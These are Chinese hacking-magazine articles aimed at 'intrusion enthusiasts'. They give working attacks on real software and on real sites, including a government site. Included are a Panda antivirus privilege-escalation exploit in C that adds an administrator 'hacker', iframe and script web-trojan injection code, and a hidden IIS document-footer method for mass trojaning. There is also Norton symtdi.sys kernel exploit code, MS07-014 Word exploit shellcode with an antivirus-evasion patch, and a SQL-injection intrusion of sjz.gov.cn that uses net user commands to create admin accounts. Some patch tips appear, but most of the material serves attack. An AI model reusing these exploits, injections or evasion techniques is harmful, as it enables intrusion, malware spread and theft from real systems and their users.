接下来就看它 3389 开了没有。用 SuperScan 扫描后确定开了 3389，那我就不客气了。其实没开 3389 也没有关系，我们帮它开！呵呵，直接连了上去，是 Windows 2003 Server 系统。沦陷！如图7所示。


图7

测试了这套系统漏洞之后，想了一下网络上还有不少使用这套内核的网站系统，就找了南方数据系统测试，果然也存在这个漏洞。顺便到南方数据的官方站点看了一下，结果官方删除了这个链接的地址，所以漏洞也就没有办法利用了。随后检测了网软天下的官方站，虽然手工检测有注入漏洞，但结果让我们失望的是，虽然没有过滤单引号，但是估计过滤了关键字“select”，导致无法猜解账户和密码，也就没有办法进行了。虽然官方无法入侵，但采用这套系统的网站很多，只要你有足够的耐心，就会有收获的。

## 引发的联想

南方数据管理系统黑防以前就有人研究过（2006年第9期），不过实现方法比较麻烦，需要注册用户才能注入。比起那个注入点，我发现的这个最新漏洞很简单实用，用这个注入点成功地入侵了很多企业站点。另外，我下载的新青年管理系统同样也存在这个漏洞。总之，使用这些系统的站长看到本文赶紧弥补漏洞，以免造成网站被黑！

最后，再提供一个漏洞的简单修补方法，将关键字“select”过滤掉就可以了，代码如下。

```asp
<%
dim id
id = replace(request.QueryString("id"), "select", " ")
%>
```

适合读者：入侵爱好者  
前置知识：无

#### 熊猫卫士本地提权漏洞体验


文/图 chbird[H.U.C]

本文将给大家带来的是一个熊猫卫士本地提权漏洞。我觉得这个漏洞以后也许会对我们的提权有所帮助，所以就给大家详细介绍一下，毕竟多一个思路不是什么坏事嘛。

非特权用户可以用自己的文件替换服务可执行程序，以本地系统权限获得完全访问，或获得其他登录到主机的任何用户的权限，包括系统管理员权限。原来是目录权限设置的原因，设置成了任何人都可以全访问。这里的全访问的意思就是可以执行，可以写入，可以读取。

### 编译EXP

首先看一下关于此漏洞的描述。熊猫卫士以不安全访问权限安装系统文件，本地攻击者可能利用此漏洞提升自己的权限，获取系统的完全控制权。在安装熊猫卫士2008时，默认将安装文件夹“%ProgramFiles%\Panda Security\Panda Antivirus 2008\”的权限设置成了“Everyone:Full Control”。有些服务（如 PAVSRV51.EXE）从这个文件夹以 LocalSystem 账户启动，而没有对服务执行任何保护。

该漏洞的 EXP 由 Windows 下的 C 语言编写，具体代码如下。

```c
#include <windows.h>
#include <stdio.h>

INT main(VOID)
{
    CHAR szWinDir[_MAX_PATH];
    CHAR szCmdLine[_MAX_PATH];

    GetEnvironmentVariable("WINDIR", szWinDir, _MAX_PATH);
    printf("chbird修改版\n");
    printf("创建用户名为 \"hacker\" 密码为 \"hacker\"\n");
    wsprintf(szCmdLine, "%s\\system32\\net.exe user hacker hacker /add", szWinDir);
    system(szCmdLine);
    printf("正在加用户 \"hacker\" 到本地管理员组...\n");
    wsprintf(szCmdLine, "%s\\system32\\net.exe localgroup Administrators hacker /add", szWinDir);
    system(szCmdLine);
    printf("添加成功, Good Luck!\n");
    return 0;
}
```

源程序我做了一些修改，为的是简单易用。将以上代码保存为 pandalocalexp.c，然后打开 VC++ 进行编译，编译的过程就不多说了。我编译好的程序 PAVSRV51.exe 已随文提供，大家可以拿来直接使用。这里卖一个关子，先不告诉大家为什么要把名字改成 PAVSRV51.exe。

### 本地EXP使用方法

从上面的漏洞描述中，我们已经了解到这个漏洞是由于熊猫卫士对目录设置出了问题，导致任何人都可以访问，这意味着我们可以替换熊猫卫士的主程序了。好了，下面我就具体地操作一下。由于这是个本地提权漏洞，所以假设我们已经取得了某网站的 WebShell。登录到 WebShell 后，找到熊猫卫士的安装目录，这里是“C:\Program Files\Panda Software\Panda Antivirus 2008”，我们进入这个目录，如图1所示。


第一步，把我们的本地漏洞利用程序上传到这个文件夹里面，别怕，这个目录是任何人都能控制的，你就放心地传吧！

如图2所示，我先把这个程序改名为 1.exe。


第二步，我们把熊猫卫士的主程序 PAVSRV51.exe 改名为 PAVSRV51.old，点击 WebShell 的“move”命令就可以了。第三步，把我们上传的 1.exe 改名字为 PAVSRV51.exe。到这里基本就完成了，之后我们需要的就是等服务器重新启动，加载我们的漏洞利用程序就成功地添加用户了。因为我已经有了服务器的权限了，直接将其重启，查看用户，哈哈，已经成功地添加了用户 hacker 和密码 hacker 了，如图3所示，还是系统权限呢。


到这里我就不多说什么了，剩下的事就交给大家自己完成吧。最后我再说说漏洞的修补方法，很简单，只要把熊猫卫士安装目录的权限设低，不让普通用户有执行命令的权限就可以了。

适合读者：入侵爱好者

前置知识：无

## 又一隐藏挂马方法

文/图 海啸天鸥（Ansty）


大家入侵成功某个站点或者拿到某个站点的 WebShell 后干的最多的事情是什么呀？也许大部分人的回答是：挂马。没错，现在肉鸡数量基本上成为了我们这些小菜们的精神动力了。看着自己鸽子上的肉鸡数不断地飞升，相信大家黑站的时候都是信心倍增的吧。

目前网上最常见的挂马代码应该就是以下的三种了。

- `1. <iframe src="网马地址" width=0 height=0></iframe>`
- `2. <script src="网马地址" language=javascript></script>`
- `3. top.document.body.innerHTML = top.document.body.innerHTML + '\r\n<iframe src="网马地址"></iframe>'`

所以，现在要是你在拿下某网站后就直接在人家主页上把上面的代码敲进去，我敢说，你的网马不能活过两天。当然，要是管理员懒到几个月都不检查一次网站，那就不同了。

除了上面这些办法，我们还有没有其他的方法实现挂马呢？有，就是我下面要介绍的“启用文档页脚法”。我的测试环境是 Windows XP SP2、IIS 5.1、PHP 5.1.2、IE 7.0、Opera 9.01、Maxthon 2，所有测试在以上平台均通过。

原理：IIS 服务响应用户页面请求后，在给用户发送的页面数据后插入一个文档，并且支持 JavaScript 脚本，然后提供给客户端运行。

要求权限：管理员。因为我们要操作 IIS，远程终端也需要管理员，就算远程管理 IIS，也还是需要管理员权限。

现在很多免费空间都利用该方法，将其广告页面插入到用户网页尾，实现广告目的。我们可以利用该方法将挂马页面插入到网页之中，而且可以实现批量挂马。

不知道有多少朋友用过 51.net 的免费空间，想必用过的朋友一定总是想着法子绕过 51.net 强制给的广告吧。现在想来，51.net 加广告的方法应该就是使用了“启用文档页脚”的方法。下面来看看我们应该怎么操作吧。

进入 IIS 的默认网站，右键点击“属性”，到文档选项卡里把“启用文档页脚”前面的勾点上，然后在浏览框里把你的网马地址填上，如图1所示。我们测试看看，哈哈，比较一下 test.htm、ansty.htm 还有测试页面蹦出来的警告，如图2所示，说明我们成功了，它能运行 HTM 文件里面的 JS 脚本。


我们在选择页脚文件的时候，并不一定必须得是 HTML 文件，经过我的测试，发现可以使用 JS 扩展名或者不使用扩展名都可以；但如果使用 ASP、PHP 作为扩展名就无法运行网马了，而且连原来的 PHP 脚本都无法执行，ASP 更是出现了服务器内部错误。不知道是不是因为我的 IIS 的问题，因为我的机子上面还装了其他的 Web 服务软件，如 Apache 等。小弟不解，望各位高人帮忙解答。

批量挂马一直是我们除了挂马隐蔽性以外的另一个关注重点。有时我们手中的某只肉鸡，上面有很多网站，要是我们在每一个 index 页面上都把 iframe 代码复制进去，岂不是要累死？虽然现在有批量挂马工具，不过要是大家看到几乎所有的 index 文件都被改了，而且还是同一时间段，不知道被挂马了才怪。现在我介绍的这种方法就可以轻松实现批量挂马了，它会在每个页面发出的时候都附加我们的文档进去，而且不用修改文件，要是站长没有管理员权限，根本查不出到底我们在哪挂马了呢。最后，记得将你的页脚文件的文档名起得具有迷惑性，这样你的网马的寿命就能更长了。

适合读者：入侵爱好者、溢出爱好者  
前置知识：汇编语言、缓冲区溢出基本原理

## 诺顿symtdi.sys本地权限提升漏洞分析与利用

文/图 张东辉 袁野

众所周知，赛门铁克（Symantec）是著名的互联网安全技术全球领导厂商之一，为企业、个人用户和服务供应商提供广泛的内容和网络安全软硬件解决方案，包括病毒防护、防火墙、VPN、风险管理、入侵检测、互联网内容及电子邮件过滤、远程管理技术及安全服务等。旗下诺顿（Norton）品牌在个人安全产品零售市场中表现突出。

前不久各大漏洞发布网站相继公布了 Symantec Norton 安全软件家族普遍存在的一个漏洞——symtdi.sys 驱动本地权限提升漏洞。受影响系统包括 Symantec Norton AntiVirus 2006/2005、Norton Personal Firewall 2006/2005、Norton AntiSpam 2005、Client Security 3.1/3.0/2.0、Internet Security 2006/2005、Norton System Works 2006/2005、AntiVirus Corporate Edition 9.x/10.1/10.0 等，影响面较广。

漏洞描述为：Symantec AntiVirus 的驱动在处理特定参数时存在缺陷，本地攻击者可利用该漏洞控制系统。其设备驱动在处理 IOCTL `0x83022323` 时未正确验证地址空间，若提交特制 IRP 参数，可能导致内存覆盖，从而以内核权限执行任意指令。

本文基于对漏洞的技术兴趣，对该漏洞进行分析，以学习“遇到问题、解决问题”的方法。理解本文需要一些基础知识，例如驱动程序（WDM）、权限提升、Windows 系统服务调用等。

### 相关知识之驱动程序

大家看到“驱动程序”常会想到显卡、网卡等硬件驱动。但在很多内核模式编程中，驱动程序不一定对应真实物理设备，也可以仅创建一个虚拟设备对象。因此用户编写驱动的目的很多时候是让代码运行在内核态，以提升权限，这也是许多安全软件包含大量驱动程序的原因。

WDM（Windows Driver Model）是 Windows 环境下开发驱动的重要模型。学习 WDM 需先理解系统结构，尤其是应用程序如何经由驱动层层调用到底层硬件。下图给出 Windows 2000 系统结构示意。


图1

在图1中，“设备驱动程序”所在区域即驱动程序所处位置。仅理解这一层还不够，还需理解驱动之间的层次关系与交互方式。驱动程序通常是分层结构：一个硬件设备常由多个相关驱动共同管理（如功能驱动与过滤驱动）。用户态请求会经由上层过滤设备对象逐层向下传递，最终到达物理设备对象。这类似 TCP/IP 分层模型：数据包逐层下传，最终到达物理层并发送。分层设计有助于扩展，例如新增管理操作时可通过增加相应驱动层实现，而不必改动既有物理设备驱动。

过滤器设备对象以及相应的驱动程序，在这里加入新的操作就行了。下面，还是用一个图来表示这种分层的结构模型，如图2所示。图左的 PDO、FDO、FiDO 等，就是指设备对象。而 IRP——I/O 请求包，就是上一层设备对象向下一层设备对象发送的请求，也就是它们之间交互的信息。


有了 IRP 请求包的概念后，我们触发漏洞的方式就简单多了，只要给有漏洞的驱动程序发送畸形的 IRP 包，这个包构造得越好，漏洞就利用得越好！

### 相关知识之权限提升

Windows NT/2000 系统为实现其可靠性，严格将系统划分为内核模式与用户模式，在 i386 系统中分别对应 CPU 的 Ring0 与 Ring3 级别。Ring0 下，可以执行特权级指令，对任何 I/O 设备都有访问权等等。要实现从用户态进入核心态，即从 Ring3 进入 Ring0，必须借助 CPU 的某种门机制，如中断门/陷阱门、调用门等。

那么为什么要提权呢？提权有什么好处？设想一下，如果你已经侵入了某个大款的个人电脑，为了得到他网上银行的账号和密码，通常的方法是写键盘钩子函数获取键盘输入，但是这种方法已经很过时了，腾讯 QQ 已经有键盘密码输入保护功能了。然而如果利用提权技术，把我们的程序提权到 Ring0 的内核级别，那么就不用写什么钩子函数了，直接拦截 API 函数，获取键盘输入即可。另一方面，我们不能总把自己暴露在目标机器上，否则总有一天要迎来噩运，应该尽量隐藏自己。要完美地使用 Rootkit 技术，有时也需要提权到内核态运行，并且抑制其他程序对我们隐藏程序的侦察和扫描。总之就是要想尽一切办法来隐藏自己，只有提权了之后才能隐藏得更深。

另外，提权后，还可以完成一些不可完成的任务。

例如格式化硬盘、操作 I/O、管理内存等危险行为。

### 相关知识之Windows系统服务调用

Windows 系统服务调用是通过系统服务描述符表实现的。内核中有两个系统服务描述符表：KeServiceDescriptorTable 和 KeServiceDescriptorTableShadow，前者由 ntoskrnl.exe 导出，后者没有导出。这两者都符合一个结构体定义。它们的区别是，KeServiceDescriptorTable 仅有 ntoskrnl 一项，而 KeServiceDescriptorTableShadow 则包含了 ntoskrnl 和 win32k。一般的 Native API 的服务地址由 KeServiceDescriptorTable 分派，而 gdi.dll 和 user.dll 的内核 API 调用服务地址由 KeServiceDescriptorTableShadow 分派。还有要清楚一点的是，win32k.sys 只有在 GUI 线程中才加载，一般情况下是不加载的。

KeServiceDescriptorTable 和 KeServiceDescriptorTableShadow 的结构如下：

```c
typedef struct _SYSTEM_SERVICE_TABLE {
    PVOID ServiceTableBase;
    PULONG ServiceCounterTableBase;
    ULONG NumberOfService;
    PULONG ParamTableBase;
} SYSTEM_SERVICE_TABLE, *PSYSTEM_SERVICE_TABLE;

typedef struct _SERVICE_DESCRIPTOR_TABLE {
    SYSTEM_SERVICE_TABLE ntoskrnl;
    SYSTEM_SERVICE_TABLE win32k;
    SYSTEM_SERVICE_TABLE NotUsed1;
    SYSTEM_SERVICE_TABLE NotUsed2;
} SYSTEM_DESCRIPTOR_TABLE, *PSYSTEM_DESCRIPTOR_TABLE;
```

当系统需要使用一个本机 API 的时候，就会去查找 SYSTEM_DESCRIPTOR_TABLE 这个表，也就是由 ntoskrnl.exe 导出的 KeServiceDescriptorTable。

为了能实际看到内存中的 KeServiceDescriptorTable 表，我们可以使用 WinDBG（http://www.microsoft.com/whdc/devtools/debugging/installx86.mspx）来进行 Kernel Debug。安装好后，启动 WinDBG，选择“File->Kernel Debug”，在下面的命令输入框中输入命令“dd KeServiceDescriptorTable”，其中 dd（Display Memory）命令是用来显示内存地址和内容的。在我的电脑上得到如下的结果。

```text
lkd> dd KeServiceDescriptorTable
8055a680 828cc668 00000000 00000129 827084a8
...
```

最左边一列是内存地址，右边四列都是内容。由此可以知道，KeServiceDescriptorTable 表描述的系统服务表的起始地址是 828cc668。继续输入命令“dd 828cc668”，可以得到如下的结果。

```text
lkd> dd 828cc668
828cc668 80580302 80579b8c 8058b7ae 805907e4
...
```

这样就可以看到一系列的 Windows 系统服务函数地址，例如第一个 0x00 号系统服务函数的地址是 80580302。另外，冰刃（IceSword）也可以用来查看 SSDT 中服务函数地址，并且有修复功能，如图4所示。

##### 漏洞分析

有了以上的基础知识，相信我们的漏洞分析会变得简单很多。首先我们来关注一下 symtdi.sys 这个驱动程序，注意这个文件是安装 Norton 安全软件而产生的。为了分析这个驱动，我们最好先在自己的平台上安装一个上面提到的某款软件。这里我安装的是 Symantec Norton AntiVirus 2006，安装完毕后在“C:\WINDOWS\system32\drivers”路径下确认 symtdi.sys 文件是否存在。

接下来我们用 IDA 反汇编这个驱动程序，会发现对于不同的 I/O 控制号（IOControlCode）有不同的处理过程。

```text
text:00038351 loc_38351: ; CODE XREF ...
text:0003835F mov edx, [ebp+var_38]
text:00038364 ja loc_38482
...
text:000383F2 jmp loc_38DD0
```

这里我们的主要目标是 IOControlCode 为 83022003h 的处理函数地址 00038646。跳到 00038646 处观察，我们来看看 symtdi.sys 是如何处理的。

```text
text:00038646 loc_38646:
text:00038649 mov edx, [ecx+3Ch] ; edx = irp->UserBuffer
text:0003864C mov [ebp+var_24], edx
...
text:0003865F push eax
```

以上程序没有对 irp->UserBuffer 进行任何检查。下面注意 eax=irp->UserBuffer，主要看它是往缓冲区怎么写的，写了几个字节。

```text
text:0003B27A mov ecx, dword_44DE8
text:0003B280 mov [eax], ecx
text:0003B282 mov edx, dword_44DEC
text:0003B288 mov [eax+4], edx
text:0003B28B mov cx, word_44DF0
text:0003B292 mov [eax+8], cx
text:0003B296 mov [ebp+var_4], 0Ah
```

从上面第2、4、6行的代码可以看出，程序往缓冲区写入了3次，第一次写了4个字节，第二次写了4个字节，第三次写了2个字节，一共是10个字节。我们的天啊！我们欢呼的时刻到了，原来程序是对输出缓冲区不经检查就写了10个字节……不过，我们还需要知道程序到底往输出缓冲区写了什么内容。

```text
data:00044DE8 dword_44DE8 dd 2E332E35h
DATA XREF: sub_3B260+1A1
```

这也就是说，程序往缓冲区写的第一个4字节内容就是 2E332E35h 了。这样我们利用这个漏洞的时候，只要事先在 2E332E35h 内存地址处写入 ShellCode，然后给驱动程序 symtdi.sys 发送畸形 IRP 请求包，调用 IOControlCode 为 83022003h 的函数……不过需要注意的是，在 ShellCode 中的程序玩完后，记得恢复之前那3个改写的系统服务函数地址。

##### 漏洞利用

利用程序我已经随文章提供了 C++ 源码，里面已写好注释，这里我只把漏洞触发的关键过程代码展示出来。

```c
// 通过设备符号链接获取设备句柄，打开设备
deviceHandle = CreateFile("\\\\.\\Symtdi", ...);
if (INVALID_HANDLE_VALUE == deviceHandle) {
    printf("Open Symtdi device failed...");
}
...
DeviceIoControl(deviceHandle, 0x83022003, NULL, 0,
                (PVOID)0x804e4150, 0xC, &dwReturnSize, NULL);
...
VdmControl = GetProcAddress(LoadLibrary("ntdll.dll"), "ZwVdmControl");
__asm {
    xor ecx, ecx
    push ecx
    push ecx
    mov eax, VdmControl
    call eax
}
```

```c
...
else {
    printf("Open Symtdi device success\n");
}

// 打开设备成功，通过设备驱动程序中的0x83022003
DeviceIoControl(deviceHandle,
                0x83022003,
                NULL,
                0,
                (PVOID)0x804e4150,
                0xC,
                &dwReturnSize,
                NULL);

CloseHandle(deviceHandle);
VdmControl = GetProcAddress(LoadLibrary("ntdll.dll"), "ZwVdmControl");
if (VdmControl == NULL) {
    printf("VdmControl == NULL\n");
    return 0;
}

printf("call shellcode\n");
__asm {
    xor ecx, ecx
    push ecx
    push ecx
    mov eax, VdmControl
    call eax
}
printf("Done\n");
```

最后给大家一个建议，最好使用虚拟机来调试。调试这种程序极容易导致系统蓝屏。另外，覆盖存储系统服务函数地址的内存时，要先用 WinDBG 计算出来……

##### 总结

通过这次漏洞分析和利用程序的编写，我们可以了解到很多相关知识，如驱动程序方面的、提权方面的、Windows 系统服务调用方面的等等，并结合这些知识和技术的相互联系，理解这个漏洞利用的思想。

适合读者：入侵爱好者、溢出爱好者  
前置知识：汇编语言、缓冲区溢出基本原理

## Word畸形数据结构溢出漏洞分析与利用

文/图 何永强

以前都是写远程溢出漏洞，感觉也该换换口味了。事实上，2005年以来的远程溢出漏洞，如 MS05-039、MS06-040、MS07-029 等，都受限于个人防火墙而难以在网上广泛传播，影响力已大不如从前。取而代之的，以 Office、WinRAR、PDF 漏洞为代表的文件格式溢出漏洞却被积极利用。本文所讲述的就是一个 Word 畸形数据结构溢出漏洞（MS07-014），文章内容分为漏洞简介、样本剖析、漏洞技术细节、利用限制及扩展应用、防杀处理与 /GS 保护五部分。

## 漏洞简介

该漏洞在微软的补丁编号是 MS07-014，但 MS07-014 同时补了好几个漏洞，因此我们一般参考 CVE 上的唯一编号：CVE-2006-6456，如图1所示。

| Name | CVE-2006-6456 (under review) |
|---|---|
| Status | Candidate |
| Description | Unspecified vulnerability in Microsoft Word 2000/2002/2003 allows remote attackers to execute code via crafted vectors related to memory corruption. |

图1

根据漏洞公告介绍，该漏洞是由 Winword.exe 文档表格处理过程中对数据长度验证不足引起的，主要针对 Word 2003。本文中所有测试均在 Windows XP SP2+Office 2003 SP2 下进行。漏洞的利用工具（下文简称 exp）在网上已有公布……WordExp 功能是将一个 exe 文件与漏洞模板（HEAD）相绑定为最终的漏洞利用文档。

图2

大家关注的是 WordExp.exe 生成之后的利用文档。尽管这样的文档会被 Symantec、KIS 等防护软件查杀，但起码为大家提供了一个不错的分析样本。我们分析的目标，就是看清样本中木马的位置及编码、ShellCode 的位置及形式、漏洞技术细节、漏洞利用限制、灵活添加自己的 ShellCode，以及如何免杀。

## 样本剖析

我们用 WordExp.exe 在样本中绑定一个计算器（calc.exe）来进行分析。点击“打开”后，生成了利用文档，我们命名为 test.doc。为便于说明，我们再用二进制编辑工具打开 test.doc。二进制编辑工具有 UltraEdit、WinHex 等，这里推荐功能更全面的 WinHex。

图3  
图4

单击 Offset 这一列中的任何位置，可以把文件偏移值显示在十进制和十六进制之间切换。本文以十六进制形式显示。由于绑定的 exe 文件大小是不限制的，而样本 HEAD 大小固定，因此肯定是将该 exe 接在 HEAD 的后面。我们不难看出 exe 文件数据位于 18200H 开始的位置……“C5 D2 18 88”是“4D 5A 90 03”异或 88H 后所得。

而 HEAD 部分大小当然也就是固定的 18200H。如果要提取出 HEAD，我们可以选中前 18200H 字节，然后右键选择“Copy Block-->Into new file”，保存就可以了，如图6所示。

至于 ShellCode，在 HEAD 中分为两部分，分别位于 F722H 和 16730H，如图7和图8所示。

ShellCode 第一部分包括了导致溢出的数据、跳转地址、ShellCode 自身等，这部分长度是有限的，放不下所有的 ShellCode，所以需要将 ShellCode 分为两部分来存放。样本中 ShellCode 的整体功能是释放并执行 exe 文件。

## 漏洞技术细节

上面我们对样本进行了初步的分析，下面我们来讨论漏洞技术细节。这是一个典型的堆栈溢出漏洞，导致溢出的数据分为数据长度+数据体，数据体的 copy 等处理是根据前面的数据长度来进行的。对溢出漏洞比较了解的朋友知道，这是文件类堆栈溢出漏洞的典型方式。好了，我们还是通过逆向工程来看看相关的反汇编代码。反汇编工具推荐功能强大的 IDA PRO，最新版本是 5.1（据说可以分析出 exe 文件 C 源代码），本文使用 5.0 版本。至于待分析的 Winword.exe，我们将补丁打到 MS07-014 之前的版本，也就是 11.8106.8107，而现在最新的版本是 11.8134.8132。那么如何看 Word 的版本号呢？点击帮助菜单下的“关于 Microsoft Office Word”就可以看到了。PowerPoint 和 Excel 的版本也是如此查看。漏洞相关的反汇编代码主要有以下3部分，我们分别对其进行说明。

- 1）堆栈溢出发生的函数，该函数的返回地址被覆盖。

```text
sub_3003224F:
3003227E  mov  ecx, [ebp-4]
30032281  test ecx, ecx
30032283  jz   loc_30379D33
30032289  push edi
3003228A  xor  eax, eax
3003228C  lea  edi, [ebp-10H]
3003228F  stosd
...
300322AB  call sub_300322CC
...
300322C9  retn 14h
```

（函数 sub_300322CC 中发生了 copy 数据并覆盖了函数 sub_3003224F 的返回地址，sub_300322CC 在 B 部分介绍。）由于返回地址已经在前面被覆盖，这里返回后就触发漏洞了。

- 2）sub_300322CC，在该函数中发生了数据 copy，关键代码如下。

```asm
sub_300322CC
...
loc_300322FB:
300322FB    mov     eax, [ebp+14H]
300322FE    mov     ecx, [ebp-40H]
30032301    add     eax, ecx
30032303    mov     [ebp-50H], eax
...
30032636    lea     edx, [eax+edi]
30032639    call    sub_30006642
...
30032660    jz      loc_3019C6ED
```

```asm
30032666    add     [ebp-40H], eax
30032669    mov     eax, [ebp-40H]
3003266C    cmp     eax, [ebp+18H]
3003266F    jl      loc_300322FB
...
3003267D    xor     eax, eax
3003267F    inc     eax
```

- 3）sub_30006642，对 memmove 函数的封装调用，完成数据 copy 功能。

```asm
sub_30006642
30006642    push    esi
30006643    push    edi
30006644    mov     edi, [esp+arg_0]
30006648    push    edi
30006649    mov     esi, edx
3000664B    push    ecx
3000664C    push    esi
3000664D    call    memmove
30006652    add     esp, 0Ch
30006655    lea     eax, [esi+edi]
30006658    pop     edi
30006659    pop     esi
3000665A    retn    4
```

当然，上面我们只给出了数据体 copy 部分的汇编代码。值得注意的是，数据体并非简单的字符串，它可能也是一个复杂的数据结构。结构内部的数据处理尽管和漏洞的产生没有直接关系，但却影响着漏洞的利用，这一点在后面利用部分继续介绍。

此外，有兴趣的朋友可以再通过回溯分析和补丁比较技术进一步了解 07-014 补丁对这个漏洞究竟补在了什么地方，补丁后的 winword.exe 的版本是 11.8125.8107，这里就不多介绍了。

## 利用限制及扩展应用

谈到漏洞利用，其实就是解决一个如何灵活添加我们自己的 ShellCode 的问题。这个漏洞的利用是有一些限制条件的。前面已经说到，ShellCode 在样本中分为两部分，其中第二部分实现真正的功能，我们称其为 SC2，它可以独立出来灵活搬移。下面重点说第一部分，我们称其为 SC1。

大家再仔细看看图7中的阴影部分，接在头两字节“6E 00”后面的是一个数据结构，长度为 0x006E×2=0x00DC。这个数据结构中很多元素都是漏洞触发之前的程序处理中不可随意破坏的。具体来说，我们需要注意以下两个问题。

- 1）如何覆盖函数返回地址

原本极其简单的一个问题，在这里却不那么容易，如图9所示。

HEAD 中偏移 F7EDH 开始的8字节“00 00 FF 34 C3 33 00 30”这8字节先后覆盖了函数 SUB_3003224F 的 EBP 和 RET，但它们恰恰也是 Winword.exe 在解析文档时要用到的重要参数……传统利用方式不可行。

因为我们已经拿到样本，所以分析样本作者对这个问题的解决思路。样本里填写的 RET 是 0x300033C3……通过调试分析 SUB_3003224F 返回时堆栈情况，并在 `300322C9 retn 14h` 设置条件断点。

关于 WinDbg 的条件断点设置……按 F5 并打开 test.doc，停到断点后，结果如图11所示。

输入命令 `d esp`，可以清楚地看到当前的堆栈数据，如图12所示。

由于函数返回指令是 `RET 14H`，该指令等效于下列两条指令：

```asm
Ret
Add esp, 14H
```

因此，ESP 指针在该指令执行后，将跳过 300033C3 后面的 14H 字节（阴影部分），直接指向后面的 0x00B85335。输入命令 `d 00b85335`，结果如图13所示。

大家会惊喜地发现 00B85335 居然直接指向了 SC1！解决思路是：不能直接填传统 JMP ESP 或具体堆栈地址，而是将返回地址填为 Winword.exe 中某段代码地址，使其执行到 RET 时跳到可控内存（ShellCode）中。

- 2）SC1 的分析

有了前面的基础，我们可以这样理解：由于数据结构中很多内容不能修改，所以 SC1 只能在一小片区域里存放……这也是为什么会有“EB 24”和“EB 29”两条指令。

好了，分析了漏洞利用的限制条件，我们再看看如何添加我们自己的 ShellCode。

首先跳转地址已选定（如 0x300033D4），SC1 仍然被采用，其功能是在内存中查找 SC2 并跳转执行。SC1 查找 SC2 的标记是 90909090……自己写的 ShellCode 接在原来 SC2 的几个 90 后即可。

ShellCode 可以在以后的任何漏洞测试中直接用，相应的汇编代码如下。

```asm
// 计算 kernel32
mov eax, fs:[030h]      // PEB addr
mov eax, [eax+0ch]
mov esi, [eax+1ch]
lodsd
mov edi, [eax+08h]      // kernel32.dll base

// 通过导出表搜索 WinExec 地址
mov eax, [edi+3ch]      // PE HEADER RVA
mov edx, [edi+eax+78h]  // export table RVA
add edx, edi

mov ebx, [edx+20h]      // 函数名数组 RVA
add ebx, edi
xor ecx, ecx
find_WinExec_loop:
inc ecx
mov esi, [ebx+ecx*4]
add esi, edi
mov eax, 'EniW'
cmp eax, [esi]
jnz find_WinExec_loop
mov ax, 'xe'
cmp ax, WORD ptr [esi+4]
jnz find_WinExec_loop
mov ebx, [edx+24h]
add ebx, edi
mov cx, [ebx+ecx*2]
mov ebx, [edx+1ch]
add ebx, edi
mov eax, [ebx+ecx*4]
add eax, edi            // eax 为函数 WinExec 地址

// 调用该函数
call _WinExec
_EMIT 'c'
```

```asm
_EMIT 'a'
_EMIT 'l'
_EMIT 'c'
_EMIT '.'
_EMIT 'e'
_EMIT 'x'
_EMIT 'e'
_EMIT 0
_WinExec:
pop ebx                // ebx 为要执行的程序名指针，如 calc.exe
push 1                 // SW_NORMAL
push ebx
call eax               // WinExec
nop
nop
```

与以上代码对应的 WinExec.cpp 文件已在杂志相关中提供。

## 防杀处理与 /GS 保护

由于该漏洞已经公布，我们拿到的样本要被 KIS 查杀，好在可以通过特征码定位技术找到特征码，位置在 17CC2H，将该字节由 02 改为 00 即可免杀。

此外，大家可能还有个疑问，Office 2003 是否存在“/GS”保护。其实，Office 2003 最初是由 VS2002 编译生成的，也就是编译器是 7.0 版本，而不是 7.1（VS2003），所以不存在“/GS”保护，这个漏洞可以正常利用。

## 小结

本文中，我们分析了 MS07-014 中的 Word 畸形数据结构溢出漏洞，中间用到的分析技术都是比较基础的，希望能对初学的朋友有所帮助。文中内容难免有错漏之处，还希望大家积极指正。

#### 经典重现——菜鸟如何入侵内网


文／图 cnbird[H.U.C] 河北泊头杨宁

这次我要带给大家的是如何通过一次 SQL 注入点到最后的入侵内网，同时给内网的机器开 3389 的精彩教程，希望大家能够喜欢。相信黑防里面高手如云，对于入侵内网是小菜一碟，但是毕竟我也属于菜鸟之列，所以这篇文章只是写给和我一样的菜鸟的，高手就请略过吧。废话不多说，我们直接进入正题。

## 发现 SQL 注入点

SQL 注入自从 2001 年被国外的某个牛人发现以后，多少服务器死在了它的手下早已无从统计。2003 年 SQL 注入正式在国内风靡，虽然过去 4 年了，但是 SQL 注入依然是拿到服务器权限的一种重要手段。

某日，我正在 Google 徘徊的时候，发现一目标——石家庄政府网 www.sjz.gov.cn，想来政府网站的主机配置应该不错的，就拿它作为我们今天的测试目标吧。大概浏览了一下网站，貌似这个网站使用的是自由动力整站程序，试了自由动力的几个漏洞都没有成功。

那就请出啊D 看看有没有注入点吧，结果没有发现 www.sjz.gov.cn 的漏洞，但却有了意外的收获，如图 1 所示，打开网站一看，原来是河北政府采购网，进入注入点后，让我大跌眼镜，竟然是 sa 的权限，如图 2 所示。不过我们今天的目标不是它，就放到以后再说吧，我们继续回到石家庄政府网站。当我来到石家庄政府在线访问系统的时候，啊D 找到了两个注入点，如图 3 所示。这个系统的 IP 地址为 221.194.12.19，而 www.sjz.gov.cn 的 IP 地址为 221.194.12.36，虽然不是一个 IP 地址，但我们可以得到一个重要的情报，就是它们在一个网段内。这个时候我的思路就清晰了起来，我们可以先入侵分站，然后通过嗅探的方法得到我们需要的信息。

有了思路就好办了，我们先看看刚才发现的注入点是什么类型的注入吧，结果总是那么地让人出乎意料，居然又是 sa 权限，如图 4 所示。先看看我们能不能执行命令吧，结果啊D 中不能执行，那就换成 NBSI 试试吧，如图 5 所示，出现了我们想要的结果了。因为能直接执行命令，我们就不用上传 WebShell 了，等拿到 3389 系统权限以后，再把一句话木马插入到某个文件中，这样就有了和 PHP 一句话插入所有 PHP 文件一样的做法了。具体的操作就是利用 WebShell 批量挂马功能就行了，这里我就不多啰嗦了。


图1


图4


图2


图5


图3

## 曲折之路

有了能执行命令的 sa 权限，我们还愁什么事干不成呢？执行 `netstat -an` 看看有没有开放 3389 端口，结果确认开放了 3389。那剩下的事就好办了，我们直接加个用户和密码就可以了，依次在 NBSI 中输入 `net user guest /active`、`net user guest guest`、`net localgroup administrators guest /add`。添加成功之后，我以为到这里入侵就会结束了呢。打开 3389 终端连接器，兴高采烈地输入 IP 地址，结果如图 6 所示，气死我了，明明开了 3389，为什么不能连接上呢？难道修改端口了？或许吧，没准管理员是个高手呢。那怎么才能知道机器开放的终端端口为多少呢？这里我给大家提供一个脚本。


```txt
Echo Dim ReadComputerName >port.vbs
Echo Set ReadComputerName=WScript.CreateObject("WScript.Shell") >>port.vbs
Echo Dim TSName,TSRegPath >>port.vbs
